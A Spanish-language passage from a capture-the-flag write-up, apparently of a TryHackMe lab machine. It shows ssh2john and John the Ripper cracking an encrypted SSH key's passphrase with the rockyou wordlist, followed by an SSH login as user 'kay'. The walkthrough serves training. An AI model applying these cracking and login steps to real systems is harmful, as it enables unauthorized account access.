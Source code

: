 Dado que la clave id_rsa está encriptada y se nos solicita una contraseña para desencriptarla, podemos emplear la herramienta ssh2john para convertir la clave a un formato que sea compatible con John the Ripper. Esto nos permitirá intentar descifrar la contraseña de la clave y obtener acceso a la máquina.

```bash
ssh2john id_rsa > hash_id_rsa
```

Ahora que contamos con el hash generado a partir de la clave id_rsa, podemos suministrarlo a John the Ripper para que lleve a cabo un proceso de desciframiento y así intentar recuperar la contraseña original de la clave.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
Created directory: /home/rumamr9/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2023-05-20 00:16) 20.00g/s 1655Kp/s 1655Kc/s 1655KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Hemos conseguido descifrar la contraseña de la clave id_rsa, lo que nos permite acceder a la máquina como el usuario "kay".

```bash
ssh kay@10.10.210.76 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$
```

Ahora que hemos accedido a la máquina como el usuario "kay", podemos proceder a obtener la flag final.

```bash
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
***********************************
```